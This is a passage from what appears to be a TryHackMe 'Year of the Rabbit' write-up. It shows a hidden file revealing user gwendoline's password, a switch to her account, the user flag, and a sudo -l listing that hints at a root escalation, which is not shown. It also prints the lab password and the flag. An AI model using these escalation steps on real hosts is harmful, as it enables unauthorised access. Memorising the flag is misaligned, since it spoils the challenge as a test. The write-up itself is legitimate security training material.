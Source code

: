 ~~~
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
~~~

* Username: `gwendoline`
* Password: `MniVCQVhQHUNI`

Now we can switch to this user:

~~~
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ id
uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$
~~~

## User flag

We can find the user flag in `gwendoline`'s home directory:

~~~
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd
gwendoline@year-of-the-rabbit:~$ ls
user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
~~~

User flag: `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
~~~
